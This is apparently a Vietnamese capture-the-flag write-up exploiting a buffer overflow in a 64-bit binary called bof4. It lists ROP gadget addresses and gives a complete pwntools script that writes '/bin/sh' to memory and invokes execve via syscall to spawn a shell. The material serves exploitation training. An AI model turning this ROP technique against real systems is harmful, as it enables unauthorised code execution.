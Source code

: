 **1. Tìm lỗi**

Dùng lệnh file để kiểm tra file

![file.png](photo/file.png)

Là file 64-bit nên mở bằng IDA64 ta có hàm main như sau:

![main.png](photo/main.png)

**2. Ý tưởng**

Chương trình không có gì đặc biệt nên dùng ROPgadget để exve

**3. Viết script**

![get.png](photo/get.png)

Khoảng cách từ biến đến ret là: 0x50 + 0x8 = 88

![pop_rdi.png](photo/pop_rdi.png)

Địa chỉ câu lệnh pop rdi: 0x000000000040220e

![pop_rsi.png](photo/pop_rsi.png)

Địa chỉ câu lệnh pop rsi: 0x00000000004015ae

![pop_rdx.png](photo/pop_rdx.png)

Địa chỉ câu lệnh pop rdx: 0x00000000004043e4

![pop_rax.png](photo/pop_rax.png)

Địa chỉ câu lệnh pop rax: 0x0000000000401001

![syscall.png](photo/syscall.png)

Địa chỉ câu lệnh syscall: 0x000000000040132e

![binsh.png](photo/binsh.png)

Không có chuỗi "/bin/sh" nào nên chúng ta phải tìm kiểm địa chỉ có thể lưu vào

![vmmap.png](photo/vmmap.png)

Địa chỉ có thể write được là: 0x00406000

![vmmap1.png](photo/vmmap1.png)

Vị trí còn trống để lưu chuỗi là: 0x406ba0

![gets.png](photo/gets.png)

Địa chỉ hàm gets là: 0x401510

Ta viết được script như sau:

```
from pwn import *

r = process("./bof4")

pop_rdi = 0x000000000040220e
pop_rsi = 0x00000000004015ae
pop_rdx = 0x00000000004043e4
pop_rax = 0x0000000000401001
syscall = 0x000000000040132e
rw_section = 0x406ba0
gets = 0x401510

payload = b'a'*88
payload += p64(pop_rdi) + p64(rw_section)
payload += p64(gets)

payload += p64(pop_rdi) + p64(rw_section)
payload += p64(pop_rsi) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += b'a'*0x28
payload += p64(pop_rax) + p64(0x3b)
payload += p64(syscall)

r.sendlineafter('something',payload)
r.sendline(b'/bin/sh')
r.interactive()
```